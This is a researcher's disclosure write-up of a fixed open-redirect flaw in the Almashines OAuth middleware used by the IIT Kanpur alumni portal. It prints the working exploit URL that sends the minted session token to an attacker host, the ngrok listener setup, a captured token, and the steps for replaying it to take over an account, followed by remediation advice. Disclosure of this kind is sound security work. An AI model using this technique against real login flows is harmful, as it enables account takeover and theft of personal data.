



Account Takeover via Open Redirect in Almashines OAuth Middleware (IIT Kanpur Alumni Portal)
related writeups and research on github.com/asucodesalmashines is a saas middleware that institutions use so they don't have to build their own social login flows from scratch. instead of every alumni portal or college site writing its own google oauth integration, they point at almashines with a client identifier, almashines handles the google side, and then hands back a session token that the consuming application understands. the iit kanpur alumni portal at portal.iitkalumni.org was one of those consumers: an angularjs single-page app talking to a php backend that in turn talked to almashines.
this was never a flaw in oauth itself or in how google behaves. google did exactly what it's supposed to do. the problem lived entirely in the almashines middleware and in the way the consuming application was allowed to supply an untrusted post-login redirect destination with no validation or cryptographic protection. i'll explain the architecture first because the vulnerability only makes sense once you see how the flow is constructed.
what happened when i reported it
on june 17 i got an email from amey karkare at the iit kanpur alumni office. he said the report had gone to almashines and they fixed it already. the thing was looked at and sorted in a day. the attached report says no one had used it before they closed it off.


nice to see the almashines team and the alumni office jump on this so fast. the report spells out what they checked and the steps they took after.
how the attack surface opened up
the frontend was leaking the google client ids it was using right in the page source. that alone made mapping the attack surface easy, and it's the kind of thing that usually means the rest of the client-side assumptions are similarly relaxed.
// from the main account?cid=785 html source
var default_client_id = "682063331222-ff9vvbo4ec187oobbdoicqcluklhdrqa.apps.googleusercontent.com";
window.webClientId = {
default: default_client_id,
AlmashinesApps1: "238557647132-gf7m9e47kda0l29dtjen2in6hf3lf4l8.apps.googleusercontent.com",
AlmashinesApps2: "335772175284-t34t25qubjrutlsvj1235jnvrd5g35m2.apps.googleusercontent.com",
// ... more client ids for different almashines tenants
};
when a user triggered social login the spa would call into the backend api exposed by the php layer and receive a fully constructed url pointing at almashines.
POST /api/institutes/getSocialSignupUrls/1
// response body
{
"url": "https://www.almashines.com/social_signup/odenr?source=google&cid=785&od_base=https%3A%2F%2Fportal.iitkalumni.org%2Fapi%2F"
}
the od_base parameter was meant to tell the middleware where to send the user (and the freshly created session token) after google authentication completed. because it was being supplied by the client and passed through without any server-side whitelist, signature check, or tenant binding, an attacker could simply point it at their own server.
how the token gets out
you craft a malicious initiation link with your own server in the od_base parameter and send it to a victim. they click it, complete the normal google consent flow, and almashines receives the code from google, mints its internal enc session token for the alumni portal, and then blindly issues a 302 redirect straight to the attacker-controlled destination, appending the token in the query string.
HTTP/1.1 302 Found
Location: https://dislike-pacify-agreeable.ngrok-free.dev/steal?social_signup/resp2dm?enc=bdc413cd026d140626e8e27671cb998bec09a51c20f1ffc90da0f80104d473c1ce5c1bf1cdd1e0767c20f700347a39910a4a172ccb6f92dc6de6b282043d1ffa1197a773f97f7cdbbcab7ef2838f95ccdd27451ca35707f213182d1156fc9f94cb3f83c625fc5b7028a5ec6a05489549f9f71e03f05199d780c4ea7519d289bb
your listener receives the request containing the enc value. once you have that token you can inject it into your own browser on the real alumni portal (usually by dropping it into localstorage or the key the angular app expects) and the application treats you as the authenticated victim. because the token was issued after google had already succeeded, any mfa or protections on the google side offered no help.
reproduction
i started by testing whether any validation existed at all. i pointed od_base at a raw attacker ip.
https://www.almashines.com/social_signup/odenr?source=google&cid=785&od_base=http%3A%2F%2F146.196.36.124%2Fsteal%3F
after the google callback the state parameter already contained the attacker ip concatenated into it. that single observation proved that the middleware was taking the untrusted od_base value and stuffing it directly into the oauth state and redirect logic with no sanitisation.
for a real capture i needed a trusted https endpoint because modern browsers block http redirects under hsts. the usual setup was enough.
python3 -m http.server 8080
ngrok http 8080
i then used the ngrok https url in the od_base (with a trailing question mark so the token would land cleanly as a query parameter). the 302 from almashines carried the full enc token. the python log caught the request immediately. the 404 response was expected; the only thing that mattered was that the token had left the trusted domain in the request line.
127.0.0.1 - - [14/Jun/2026 09:38:31] "GET /steal?social_signup/resp2dm?enc=bdc413cd026d140626e8e27671cb998bec09a51c20f1ffc90da0f80104d473c1ce5c1bf1cdd1e0767c20f700347a39910a4a172ccb6f92dc6de6b282043d1ffa1197a773f97f7cdbbcab7ef2838f95ccdd27451ca35707f213182d1156fc9f94cb3f83c625fc5b7028a5ec6a05489549f9f71e03f05199d780c4ea7519d289bb HTTP/1.1" 404 -

the network tab showed the 302 leaving the trusted domain with the token visible in the location.

the local server confirmed the token had arrived.

with the enc value in hand it was straightforward to replay it on the real portal and assume the victim's session.
impact and the actual architectural problem
any user who could be tricked into clicking the link would have their account fully taken over. the alumni portal contained real personally identifiable information, employment history, phone numbers, addresses, and educational records for iit kanpur alumni. because it was the official alumni association site, people naturally trusted "login with google" links that appeared to come from their college network.
the consequences went beyond a single user. once an attacker has a valid enc token they can scale the attack if they can get victims to click (phishing, malicious links in email, etc.). no mfa protections on the google side helped because the session token was minted after google authentication had already succeeded.
the cvss v3.1 base score was 9.1 (critical). the cwe was 601 for open redirect leading to a dangling session pointer and account takeover. the root cause was architectural: a multi-tenant auth saas was accepting a completely caller-controlled post-auth destination for the session token with zero enforcement that the destination actually belonged to the tenant (the cid) that started the flow. the consuming spa and php backend simply built and exposed the social signup url containing that parameter.
fix
the od_base parameter (or whatever name the post-auth return destination uses) must be validated server-side against a strict allowlist that is keyed to the specific cid or tenant. it should not be possible for the client, or an attacker replaying the initiation, to make the middleware issue a 302 that carries the freshly minted enc token to an arbitrary origin.
the ideal fix is to stop letting the caller control the final destination for the token altogether. when the social flow is initiated, record the intended return target server-side (bound to the initiation session or a short-lived signed value) and only permit the final redirect that carries the enc token to go to that pre-approved target.
if the saas model genuinely requires dynamic post-auth targets for its customers, the parameter must be cryptographically signed by the legitimate backend at the moment the social signup url is generated. the almashines middleware must verify that signature before it issues the redirect containing the session token.
binding the issued enc token to the original origin (so it is only usable from the expected alumni portal domain) would also prevent simple replay attacks on attacker-controlled hosts.